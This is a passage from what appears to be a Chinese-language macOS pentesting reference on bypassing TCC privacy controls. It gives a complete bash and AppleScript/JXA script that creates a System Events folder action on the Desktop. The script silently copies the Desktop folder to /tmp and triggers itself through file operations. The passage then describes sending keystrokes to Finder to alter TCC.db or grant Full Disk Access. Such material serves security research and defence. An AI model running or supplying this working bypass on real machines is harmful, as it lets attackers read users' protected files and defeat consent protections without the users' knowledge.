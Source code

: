 ### 自动化（SE）到一些TCC

**系统事件可以创建文件夹操作，文件夹操作可以访问一些TCC文件夹**（桌面、文稿和下载），因此可以使用以下脚本来滥用这种行为：
```bash
# Create script to execute with the action
cat > "/tmp/script.js" <<EOD
var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("cp -r $HOME/Desktop /tmp/desktop");
EOD

osacompile -l JavaScript -o "$HOME/Library/Scripts/Folder Action Scripts/script.scpt" "/tmp/script.js"

# Create folder action with System Events in "$HOME/Desktop"
osascript <<EOD
tell application "System Events"
-- Ensure Folder Actions are enabled
set folder actions enabled to true

-- Define the path to the folder and the script
set homeFolder to path to home folder as text
set folderPath to homeFolder & "Desktop"
set scriptPath to homeFolder & "Library:Scripts:Folder Action Scripts:script.scpt"

-- Create or get the Folder Action for the Desktop
if not (exists folder action folderPath) then
make new folder action at end of folder actions with properties {name:folderPath, path:folderPath}
end if
set myFolderAction to folder action folderPath

-- Attach the script to the Folder Action
if not (exists script scriptPath of myFolderAction) then
make new script at end of scripts of myFolderAction with properties {name:scriptPath, path:scriptPath}
end if

-- Enable the Folder Action and the script
enable myFolderAction
end tell
EOD

# File operations in the folder should trigger the Folder Action
touch "$HOME/Desktop/file"
rm "$HOME/Desktop/file"
````

#### 自动化（SE）+ 辅助功能（**`kTCCServicePostEvent`|**`kTCCServiceAccessibility`\*\*）到 FDA\*

在 **`System Events`** 上的自动化 + 辅助功能（**`kTCCServicePostEvent`**）允许发送**按键到进程**。这样，您可以滥用 Finder 来更改用户的 TCC.db 或为任意应用程序提供 FDA（尽管可能需要提示输入密码）。
